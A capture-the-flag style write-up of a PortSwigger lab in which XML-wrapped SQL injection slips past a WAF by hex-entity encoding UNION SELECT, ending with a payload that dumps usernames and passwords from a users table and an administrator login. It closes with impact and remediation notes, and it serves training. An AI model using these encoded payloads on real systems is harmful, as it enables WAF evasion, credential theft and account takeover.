


# Lab 3: SQL Injection with Filter Bypass via XML Encoding

**Category:** SQL Injection
**Difficulty:** Practitioner
**Link:** https://portswigger.net/web-security/sql-injection

## Vulnerability
The stock check feature sends product Id and store Id in XML format to a 
backend SQL query. The application uses a WAF that blocks obvious SQL 
keywords like UNION SELECT in plain text.

## Exploitation
The WAF checks for plain text SQL keywords but doesn't decode XML hex 
entities before scanning. By encoding the SQL keywords as XML hex 
entities using Hackvertor, the payload bypasses the WAF while the 
database still receives and executes valid SQL.

**Step 1 - Confirmed storeId is evaluated server-side:**
```xml
<storeId>1+1</storeId>
```
Returned stock for store 2, confirming server-side evaluation.

**Step 2 - Confirmed WAF blocks plain SQL:**
```xml
<storeId>1 UNION SELECT NULL</storeId>
```
Returned 403 "Attack detected".

**Step 3 - Bypassed WAF using hex entity encoding:**
```xml
<storeId>1 <@hex_entities>UNION SELECT NULL</@hex_entities></storeId>
```
Returned 200 with null, confirming UNION SELECT worked.

**Step 4 - Extracted credentials:**
```xml
<storeId>1 <@hex_entities>UNION SELECT username || '~' || password FROM users</@hex_entities></storeId>
```

## Result
Retrieved credentials for all users including administrator. 
Logged in as administrator to solve the lab.

## Impact
An attacker can bypass WAF protections using encoding techniques and 
extract sensitive data including credentials from the database, leading 
to full account takeover including administrative access.

## Remediation
Use parameterized queries to prevent SQL injection regardless of WAF 
rules. WAFs should not be relied upon as the primary defense against 
SQL injection. Additionally, implement proper input validation and 
decode/normalize input before WAF inspection.

## Evidence



